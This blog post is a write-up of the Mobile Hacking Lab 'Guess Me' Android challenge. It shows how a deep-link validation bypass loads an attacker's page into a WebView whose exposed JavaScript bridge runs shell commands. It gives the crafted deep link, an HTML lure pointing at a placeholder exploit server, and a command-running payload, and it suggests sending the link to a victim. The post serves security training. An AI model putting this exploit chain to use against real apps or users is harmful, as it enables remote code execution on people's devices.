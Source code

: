 ```yaml
---
date: '2024-10-02T17:04:51+05:30'
draft: false
title: 'Learning Android Pentesting Part 5'
cover:
    image: "images/cover.png" 
    alt: "some image that didn't load"
    caption: "Mobile Hacking Lab - Guess Me"
    responsiveImages: false
tags: ["Android", "Mobile", "CTF"]
keywords: ["mobile", "android"]
description: "Mobile Hacking Lab - Guess Me"
showFullContent: true
readingTime: true
showFullContent: true
readingTime: true
showToc: true
tocOpen: true
showReadingTime: true
hideSummary: true
---
```


I've been going through the free [Android Application Security course by Mobile Hacking Lab](https://www.mobilehackinglab.com/course/free-android-application-security-course). I would recommend this to you if you are looking to get started with Android Application pentesting. They have great labs as well, which are excellent if you are looking to get your hands dirty. This blog is a writeup for one of their free labs - Guess Me.

The goal of the challenge is to manipulate a deep link functionality in the android application, allowing you to execute remote code and gain unauthorized access.

# Analyzing the Application
Looking at the source code using jadx-gui, we see there is one activity `com.mobilehackinglab.guessme.WebviewActivity` defined with an intent-filter to handle deep-links.
![intent-filter](images/activity-intent-filter.png)

The scheme is `mhl` and the host is `mobilehackinglab`, so this activity can be invoked using activity manager using the command
```bash
am start -d 'mhl://mobilehackinglab'`
```
![activity-invoked](images/activity-invoked.jpg)

# Webviews and Javascript Interfaces
[WebView](https://developer.android.com/reference/android/webkit/WebView) objects allow you to display web content as part of your activity layout, but lack some of the features of fully-developed browsers.

This activity defines a webview in the `onCreate` method and exposes a Javascript interface `MyJavascriptInterface` to it, which can be accessed using the `AndroidBridge` object. After this, the `loadAssetIndex` and `handleDeepLink` methods are called. 
![activity-oncreate](images/webview-oncreate.png)

A [Javascript Interface](https://developer.android.com/reference/android/webkit/JavascriptInterface) allows you to expose Java functions to a webview, which can then be invoked via Javascript. This is sort of similar to [preload scripts in Electron](https://www.electronjs.org/docs/latest/tutorial/tutorial-preload), where we expose Nodejs functions to the renderer process.

The `MyJavascriptInterface` interface exposes 2 methods:
- loadWebsite: loads the url passed into the webview.
- getTime: executes the passed string as a command and returns the string.
![js-interface](images/js-interface.png)

`getTime` can be used to abuse the Webview and get command execution on the device.

# Routing the Exploit

We need to load an URL under our control into the webview. Once done, we call `AndroidBridge.getTime` via javascript to get command execution. Looking at the function calls using `frida-trace` when invoking `WebviewActivity` via our deeplink, we see the following call order:
```
init
onCreate -> loadAssetIndex
         -> handleDeepLink -> isValidDeepLink
```
![call-stack](images/call-stack.png)

`isValidDeepLink` checks the following:
- The deeplink URI starts with either `mhl` or `https`.
- The deeplink host is `mobilehackinglab`.

If these 2 checks pass, then:
- GET parameter `url` should not be null
- GET parameter `url` should end with `mobilehackinglab.com`

![isvaliddeeplink](images/isvaliddeeplink.png)

If all is good, the function returns true, after which `handleDeepLink` will call `loadDeepLink` which loads the URL in the GET parameter `url` into the webview.
![handleDeeplink](images/handledeeplink.png)

This can be achieved by using the below deeplink:
```
mhl://mobilehackinglab/?url=https://google.com%23mobilehackinglab.com
```
![exploitlink](images/exploit-link.png)

# Exploitation

Create the following HTML pages, and host them over an HTTP server.
```html
<!-- index.html -->
<a href="mhl://mobilehackinglab/?url=http://YOUR-EXPLOIT-SERVER/exploit.html%23mobilehackinglab.com"><h1>Click Me!</h1></a>
```

```html
<!-- exploit.html -->
<script>
    alert(AndroidBridge.getTime("id"));
</script>
```
Send the link to your server to the victim. When the victim clicks the link, it triggers `com.mobilehackinglab.guessme.WebviewActivity` and loads our malicious exploit.html into its' webview, leading to RCE.
![rce](images/rce.jpg)
